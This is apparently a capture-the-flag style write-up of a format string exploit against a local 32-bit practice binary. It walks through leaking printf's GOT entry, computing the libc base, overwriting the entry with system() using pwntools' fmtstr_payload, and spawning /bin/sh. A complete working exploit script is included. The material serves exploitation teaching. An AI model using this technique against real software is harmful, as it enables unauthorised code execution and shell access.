

# 🛠 GOT Overwrite Write-up – Format String Exploit

## 🔍 Binary Info

* **Architecture**: 32-bit (x86)
* **Protection**:

  * NX: Enabled
  * PIE: Disabled (fixed binary base address)
  * Stack canary: Disabled
  * RELRO: Partial (GOT is writable)
  * ASLR: Enabled
* **Vulnerability**: Format String Vulnerability

---

## 🐛 Vulnerability

The binary has a format string vulnerability that allows us to:

1. **Leak** a libc address (in this case, `printf@GOT`) using `%s` with a stack-controlled pointer.
2. **Overwrite** the GOT entry of `printf()` with the address of `system()` using a format string write.


we only read 4 bytes because printf will print until it reach null byte `u32(p.recv(4))`

---

## ⚙️ Exploit Steps

### 1. Leak `printf` address via `%6$s`

We use the format string `%6$s` and place the address of `printf@GOT` after it on the stack. This causes the program to:

* Print the contents at the memory address `printf@GOT`
* Give us the actual `printf()` address in libc

```py
payload = b'%6$s' + p32(elf.got['printf'])
p.sendline(payload)
printf_leak = u32(p.recv(4))  # Read leaked address
```

### 2. Calculate libc base address

Once we leak `printf`, we use it to calculate the **base address of libc** by subtracting the offset of `printf()` in libc:

```py
libc.address = printf_leak - libc.sym['printf']
```

This allows us to get the address of any libc function, like `system()`.

---

### 3. Overwrite `printf@GOT` with `system`

Now that we know the address of `system()`, we overwrite the GOT entry of `printf` with it using `fmtstr_payload`:

```py
payload = fmtstr_payload(5, {elf.got['printf']: libc.sym['system']})
p.sendline(payload)
```

> Note: We use offset `5` here for the format string write because our target address is placed at that position on the stack. This may vary depending on the binary and environment.

---

### 4. Call `system("/bin/sh")`

Since `printf()` is now actually `system()`, we send `/bin/sh` to trigger a shell:

```py
p.sendline('/bin/sh')
p.interactive()
```

---

## 📜 Full Exploit Code

```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc

p = process()

# ASLR bypass - Leak printf address
payload = b'%6$s'
payload += p32(elf.got['printf'])
p.sendline(payload)

# Parse leaked address
printf_leak = u32(p.recv(4))
libc.address = printf_leak - libc.sym['printf']

p.clean()

# Overwrite GOT printf → system
payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

# Trigger system('/bin/sh')
p.sendline('/bin/sh')
p.interactive()
```

---

Output:





## 🧠 Key Takeaways

* Format string vulnerabilities are powerful when the binary lacks full RELRO and PIE.
* With `%n`/`%s` and known stack offsets, GOT entries can be overwritten to redirect function calls.
* Once `system()` is reachable, a shell can be spawned with `/bin/sh`.

---
